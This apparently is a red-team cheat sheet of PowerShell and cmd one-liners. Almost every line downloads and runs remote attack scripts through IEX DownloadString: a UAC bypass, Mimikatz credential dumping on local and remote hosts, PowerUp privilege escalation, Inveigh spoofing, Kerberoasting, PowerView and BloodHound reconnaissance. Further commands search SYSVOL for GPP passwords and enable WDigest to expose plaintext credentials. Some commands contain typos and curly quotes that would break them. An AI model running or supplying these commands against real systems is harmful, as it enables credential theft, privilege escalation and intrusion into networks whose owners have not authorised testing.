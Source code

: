 # Description: 
#    Collection of PowerShell one-liners for red teamers and penetration testers to use at various stages of testing.

# Invoke-BypassUAC and start PowerShell prompt as Administrator [Or replace to run any other command]
- `powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'"`

# Invoke-Mimikatz: Dump credentials from memory
- `powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"`

# Import Mimikatz Module to run further commands
- `powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"`

# Invoke-MassMimikatz: Use to dump creds on remote host [replace $env:computername with target server name(s)]
- `powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PewPewPew/Invoke-MassMimikatz.ps1');'$env:COMPUTERNAME'|Invoke-MassMimikatz -Verbose"`

# PowerUp: Privilege escalation checks
- `powershell.exe -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks”`

# Invoke-Inveigh and log output to file
- `powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Scripts/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y"`

# Invoke-Kerberoast and provide Hashcat compatible hashes
- `powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-kerberoast -OutputFormat Hashcat"`

# Invoke-ShareFinder and print output to file
- `powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess|Out-File -FilePath sharefinder.txt"`

# Import PowerView Module to run further commands
- `powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1')"`

# Invoke-Bloodhound
- `powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');Invoke-BloodHound"`

# Find GPP Passwords in SYSVOL
- `findstr /S cpassword $env:logonserver\sysvol\*.xml`
- `findstr /S cpassword %logonserver%\sysvol\*.xml (cmd.exe)`

# Run Powershell prompt as a different user, without loading profile to the machine [replace DOMAIN and USER]
- `runas /user:DOMAIN\USER /noprofile powershell.exe`

# Insert reg key to enable Wdigest on newer versions of Windows
- `reg add HKLM\SYSTEM\CurrentControlSet\Contro\SecurityProviders\Wdigest /v UseLogonCredential /t Reg_DWORD /d 1`

